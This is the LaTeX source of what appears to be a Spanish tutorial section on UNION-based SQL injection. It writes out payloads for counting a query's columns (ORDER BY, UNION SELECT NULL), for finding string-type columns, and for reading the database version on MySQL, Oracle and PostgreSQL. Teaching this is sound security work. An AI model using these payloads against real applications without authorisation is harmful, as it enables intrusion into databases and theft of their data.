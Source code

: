 \documentclass[bibliography=totocnumbered]{scrartcl}
\begin{document}
Hay dos métodos efectivos para determinar cuántas columnas tiene la consulta original.\\

El \textbf{primer método} es con la clausula \textit{ORDER BY}. Se empieza con \textit{ORDER BY 1} y se continua aumentando hasta que la aplicación devuelva un error.
\begin{lstlisting}
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
\end{lstlisting}
\bigbreak

El \textbf{segundo método} involucra la clausula \textit{UNION} anteriormente mencionada. Consiste en hacer varias consultas de la siguiente manera:
\begin{lstlisting}
    ' UNION SELECT NULL--
    ' UNION SELECT NULL, NULL--
    ' UNION SELECT NULL, NULL, NULL--
    etc.
\end{lstlisting}
Si el número de \textit{NULL} no encaja con el número de columnas, se notificará un mensaje de error.

\paragraph{Determinar el tipo de la columna} 
\mbox{}

Normalmente, buscaremos columnas con tipos de dato \textit{String}, por lo que necesitaremos encontrar las columnas que sean de tipo \textit{String}.\\
Sabiendo cuántas columnas tiene la consulta original, debemos probar cada una de las columnas. Suponiendo que son tres las columnas, las pruebas serían así:
\begin{lstlisting}
    ' UNION SELECT 'a', NULL, NULL--
    ' UNION SELECT NULL, 'a', NULL--
    ' UNION SELECT NULL, NULL, 'a'--
\end{lstlisting}
Si el tipo de dato no es compatible con un \textit{String}, entonces obtendremos un error.

\subsection{Examinar la base de datos}
Es posible obtener información relevante de la base de datos, pero la consulta depende del tipo de base de datos.
\begin{lstlisting}[language=SQL]
            SELECT @@version            /* MySQL        */
            SELECT * FROM v$version     /* Oracle       */
            SELECT version()            /* PostgreSQL   */
\end{lstlisting}
Para conocer las peculiaridades de cada base de datos, es aconsejable mirar alguna \textit{cheat sheet}\parencite[ver][]{cheat_sheet} e investigar y leer sobre la base de datos en cuestión.
\end{document}
